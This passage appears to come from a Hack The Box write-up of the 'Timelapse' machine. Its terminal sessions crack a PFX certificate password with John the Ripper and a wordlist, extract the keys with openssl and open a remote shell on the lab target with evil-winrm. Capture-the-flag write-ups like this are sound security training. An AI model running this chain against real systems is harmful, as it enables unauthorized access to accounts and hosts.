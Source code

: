 ```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > pfx.hash

┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ john pfx.hash --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:47 DONE (2023-07-22 13:00) 0.02124g/s 68664p/s 68664c/s 68664C/s thuglife06..thud456
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


### Extract private and public key from the pfx file

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -out private.key -nodes -nocerts
Enter Import Password:thuglegacy

┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -out public.key -nodes -nokeys
Enter Import Password:thuglegacy
```

> Command can be found in the [arsenal](https://github.com/Orange-Cyberdefense/arsenal) cheat sheet by *Orange-Cyberdefense*
> 
> ![](/assets/obsidian/bd9c4ea8bd9a5908d71ae87363b39caf.png)
{: .prompt-tip }


## Login as legacy with evil-winrm

Nmap result reveals that the winrm was opened at port `5986` for ssl, but not the default `5985`

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ evil-winrm -i timelapse.htb -S -c public.key -k private.key

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> cat ..\Desktop\user.txt
```